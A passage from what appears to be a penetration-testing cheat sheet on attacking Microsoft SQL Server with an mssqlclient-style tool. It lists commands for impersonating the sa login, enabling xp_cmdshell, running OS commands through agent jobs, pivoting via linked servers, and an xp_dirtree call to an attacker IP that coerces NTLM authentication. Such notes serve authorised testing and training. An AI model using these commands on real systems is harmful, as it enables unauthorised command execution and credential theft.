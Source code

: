 {% hint style="info" %}
Or automate the process above with this [script](https://github.com/NetSPI/Powershell-Modules/blob/master/Get-MSSQLLinkPasswords.psm1) from NetSPI.
{% endhint %}

## MSSQL Commands

```sql
SQL (ws_dev  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```

More

```sql
# Enum impersonate
enum_impersonate

# Execute as
exec_as_login sa

# Dirtree
xp_dirtree \\10.10.14.104\a

# Enable xp_cmdshell
enable_xp_cmdshell

# Start a job
sp_start_job cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"

# Use linked server
use_link SQL02
```
